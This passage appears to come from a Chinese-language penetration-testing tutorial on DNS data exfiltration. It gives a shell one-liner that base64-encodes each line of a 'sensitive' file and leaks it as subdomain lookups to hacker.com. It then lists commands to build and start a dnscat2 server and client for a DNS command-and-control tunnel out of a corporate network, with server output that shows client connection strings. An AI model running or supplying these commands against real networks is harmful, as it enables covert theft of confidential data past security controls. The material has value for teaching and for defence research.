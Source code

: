

```
➜  ~ cat sensitive.txt 
    Alice
    Bob
    John
```

同时，我们想通过网络把这些机密泄露出去，尽管这些网络的设置是相对安全的。

```
for i in $(cat sensitive.txt); do d=$(echo $i|base64) &amp;&amp; nslookup $d.hacker.com; done
```

上面的shell命令将逐行读取包含敏感信息的文件。然后，对每行内容进行base64编码。然后，在DNS查询期间将其用作子域。这样，一旦查询到达hacker.com的权威DNS服务器，我们就可以捕获相应的DNS日志，通过解析日志可以获得子域，从而得到相应的敏感数据。这种技术非常有用，但它有以下限制。

这是一种单向通信。我们不能从C2（权威DNS）发回命令

虽然读取文件非常容易，但是如果需要处理100MB数据时，将会发生什么情况？ DNS数据包可能会以不同的顺序到达。

因此，我们需要一个解决所有问题的工具。幸运的是，我们借助于dnscat2。

<br>

**如何配置和使用Dnscat2？**

Dnscat2提供了客户端和服务器应用程序。下面是构建一个DNS2服务器所需的命令。



```
~ git clone https://github.com/iagox86/dnscat2.git
    ~ cd dnscat2/server/
    ~ gem install bundler
    ~ bundle install
```

下面是在公司网络上面安装客户端程序所需的具体命令。



```
root@pentest:~# git clone https://github.com/iagox86/dnscat2.git
    root@pentest:~# cd dnscat2/client/
    root@pentest:dnscat2/client/# make
```

一切准备就绪之后，现在我们就可以启动Dnscat2服务器了，具体命令如下所示。



```
root@khaleesi:/opt/dnscat2/server# ruby dnscat2.rb opendns.online
    New window created: 0
    dnscat2&gt; New window created: crypto-debug
    Welcome to dnscat2! Some documentation may be out of date.
    auto_attach =&gt; false
    history_size (for new windows) =&gt; 1000
    Security policy changed: All connections must be encrypted
    New window created: dns1
    Starting Dnscat2 DNS server on 0.0.0.0:53
    [domains = opendns.online]...
    Assuming you have an authoritative DNS server, you can run
    the client anywhere with the following (--secret is optional):
      ./dnscat --secret=7040f6248e601519a9ebfb761e2402e3 opendns.online
    To talk directly to the server without a domain name, run:
      ./dnscat --dns server=x.x.x.x,port=53 --secret=7040f6248e601519a9ebfb761e2402e3
    Of course, you have to figure out &lt;server&gt; yourself! Clients
    will connect directly on UDP port 53.
```
